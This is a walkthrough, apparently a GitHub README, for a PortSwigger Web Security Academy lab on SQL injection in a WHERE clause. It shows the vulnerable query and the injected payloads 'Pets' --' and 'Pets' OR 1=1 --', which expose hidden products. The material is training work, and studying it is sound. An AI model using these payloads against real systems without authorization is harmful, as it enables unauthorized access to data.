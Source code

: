 # Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

Lab-Link: <https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data>  
Difficulty: APPRENTICE  
Python script: [script.py](script.py)

## Known information

- vulnerable to SQL injection
- parameter: URL argument category
- Query string used
- Result: Page contains filtered view of the category, showing only released products
- Goal: Show unreleased products

## Query

Query is provided as

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

The category string is likely taken directly from the URL argument

```sql
SELECT * FROM products WHERE category = '<PARAM>' AND released = 1
```

## Steps

### Find baseline

Find out what is the baseline, select Pets

--> 3 entries shown

### Ignore released part of query

Need to inject something that causes the 'AND released = 1' part to be ignored, for example by injecting a comment that ignores all the remaining part of the query.

```sql
SELECT * FROM products WHERE category = 'Pets' -- AND released = 1
```

inject `Pets' --`

This results in this query

```sql
SELECT * FROM products WHERE category = 'Pets' -- ' AND released = 1
```

Note the single quote after the `--`, which is added by the application. Due to the comment we don't have to deal with it.

#### URL encode

The URL needs to be properly encoded. When using a browser, this will be done automatically by the browser but is not shown in the URL bar. When using Burp Repeater the URL encoding needs to be done manually with `Ctrl+U`

![url encode in burp](img/url_encode.png)

==> 4 entries shown

### Show all products regardless of category

To show all products, regardless of category or released status, inject a string that evaluates to `TRUE` for each entry in the table.

```sql
Pets' OR 1=1 --
```

![Result](img/result.png)
